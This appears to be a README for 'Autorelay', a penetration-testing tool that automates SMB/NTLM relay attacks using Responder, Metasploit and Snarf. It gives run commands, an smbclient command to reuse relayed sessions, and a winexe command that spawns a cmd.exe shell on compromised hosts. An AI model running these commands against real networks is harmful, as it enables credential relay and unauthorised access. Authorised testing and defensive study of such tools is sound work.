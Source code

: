 # Autorelay

Automatically performs the SMB relay attack either locally or on a remote device. Uses Responder to poison, Metasploit for HTTP NTLM relay (rather than just SMB relay), and Snarf for the MITM'ing. When using locally, only requires an interface and an nmap XML file of the target network to determine SMB hosts. When used for SMB relaying on a jumpbox, requires the IP address of the jumpbox.


## Usage

1. pip install -r requirements

####Remote

2. python autoresp.py -d [remote server internal IP] -x [nmap xml output file from the remote network] -i [remote device interface]

####Local

2. python autoresp.py -x [nmap xml output file from the remote network] -i [interface]

3. Point your local browser to http://localhost:4001 and refresh it periodically to see your MITM'd connections

4. After a connection is expired (or you expire it), click "choose"

5. Run this command locally if relaying locally or run it on the jumpbox if you're relaying remotely: smbclient -U a%a //127.0.0.1

6. Alternatively, if you gain admin rights through the SMB connection spawn a shell with: winexe //127.0.0.1 -U "a%a" cmd.exe

